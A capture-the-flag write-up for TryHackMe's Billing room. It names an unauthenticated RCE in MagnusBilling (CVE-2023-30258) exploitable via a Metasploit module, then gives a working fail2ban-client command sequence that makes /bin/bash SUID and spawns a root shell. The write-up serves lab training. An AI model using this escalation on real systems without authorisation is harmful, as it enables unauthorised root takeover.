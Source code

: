 ```yaml
---
title: TryHackMe Billing Write-Up Walk Through
date: 2025-03-09 08:00:00 +0200
categories: [TryHackMe, CTF, TryHackMe Write Up]
tags: [tryhackme,ctf, magnusbilling, ctf, fail2ban,unauthenticated Remote Command Execution]
description: "Exploit CVE-2023-30258 on TryHackMe's Billing room and escalate to root with fail2ban-client."
comments: false
media_subpath: /assets/img/
image:
  path: tryhackme-billings-room-f.png
  alt: TryHackMe Billing
---
```


## TryHackMe Billing Room: MagnusBilling Exploit - From Initial Access to Root

After running an initial scan, you'll discover a **MagnusBilling** instance running on **port 80**. A quick Google search reveals **CVE-2023-30258**, an **unauthenticated Remote Command Execution (RCE)** vulnerability—your ticket in.

**[You can follow YouTube video walk through here](https://youtu.be/p2ozqA4nbLg)**

## Exploiting CVE-2023-30258: Two Paths to Initial Access

There are two effective ways to exploit this:

- **Metasploit Module**: Fire up the `magnusbilling_unauth_rce_cve_2023_30258` module. Set your `LHOST` (your IP) and `RHOST` (target IP) to snag a shell.
- **Python Script**: Prefer a hands-on approach? Use a custom Python script for manual RCE.

Both drop you into a shell as the `asterisk` user on the `Billing` machine.

## Privilege Escalation: Unlocking Root with `fail2ban-client`

Once inside, run `sudo -l` and you'll see:

```console
asterisk@Billing:/$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

This is gold. The `asterisk` user can run `/usr/bin/fail2ban-client` as **root** without a password, opening up multiple escalation paths.

### Example Exploit: SUID Root Shell

Here's one method to get root:

```console
sudo /usr/bin/fail2ban-client set sshd addaction myexploit
sudo /usr/bin/fail2ban-client set sshd action myexploit actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.5
ls -l /bin/bash
/bin/bash -p
```

# Want the Full Walkthrough?

Check out my **[full video walkthrough](https://youtu.be/p2ozqA4nbLg)** on my YouTube channel for step-by-step guidance:

**[CLICK HERE FOR YOUTUBE VIDEO WALK THROUGH](https://youtu.be/p2ozqA4nbLg)**

<a href="https://youtu.be/p2ozqA4nbLg">
  <img src="tryhackme-billings-room-youtube.png"  alt="TryHackMe Billing" >
</a>



